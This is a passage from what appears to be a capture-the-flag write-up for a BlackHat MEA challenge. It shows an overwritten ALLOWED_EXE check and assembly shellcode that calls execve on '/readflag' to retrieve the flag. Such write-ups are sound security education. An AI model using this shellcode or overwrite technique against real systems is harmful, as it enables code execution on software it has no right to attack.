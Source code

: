 Checking again to make sure it worked, we see that we've successfully overwritten `ALLOWED_EXE` as intended :)

![overwrite_success](/assets/blackhatmea/zerodaytea/overwrite_success.webp)
## Getting the Flag

Finally, all that's left to do is execute our execve call with the now allowed `"/readflag"` filename argument and get the flag.

```python
win = """
mov rdi, rbx     <-
add rdi, 0x50    <- setting filename to address of "/readflag"
mov rsi, 0
mov rdx, 0
mov rax, 0x3b
syscall
"""

shellcode += asm(win)
```
